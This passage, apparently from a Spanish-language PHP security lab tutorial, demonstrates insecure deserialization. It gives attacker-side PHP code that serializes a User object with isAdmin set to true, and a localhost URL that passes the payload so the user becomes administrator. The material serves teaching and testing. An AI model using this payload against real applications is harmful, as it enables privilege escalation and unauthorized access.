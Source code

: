 
Raul podría haber cambiado su estado, convirtiéndose en administrador.


**2 - Crear un archivo para crear la serialización con los datos que se deseen.**

Crear el archivo **HackerAdmin.php**  y ejecutar este código en la máquina atacante:

~~~
<?php
class User {
	public $username = "hacker";
	public $isAdmin = true;
}
echo urlencode(serialize(new User()));
?>
~~~

Salida esperada (ejemplo):

~~~
O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22hacker%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D
~~~

Este objeto serializado podemos usarlo para enviarlo a MostrarObjeto.php y así hacker sería administrador.

![](images/UD6.png)


- Copiar la salida obtenida

- Acceder a esta URL en el navegador `http://localhost/MostrarObjdeto.php?data=` y concatenarla con el código obtenido:


Al mandarlo, tendríamos el mismo resultado, Hacker se convierte en `Admin`.


~~~
http://localhost/MostrarObjdeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22hacker%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D
~~~

